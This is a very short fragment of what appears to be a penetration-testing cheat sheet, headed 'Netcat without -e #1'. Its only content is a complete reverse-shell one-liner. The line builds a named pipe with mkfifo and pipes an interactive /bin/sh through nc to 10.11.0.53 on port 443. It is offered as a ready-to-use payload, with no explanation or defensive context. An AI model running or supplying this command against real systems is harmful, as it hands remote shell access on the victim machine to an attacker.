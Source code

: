 # Netcat

#### **Netcat without -e \#1**

```text
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.11.0.53 443 > /tmp/f
```


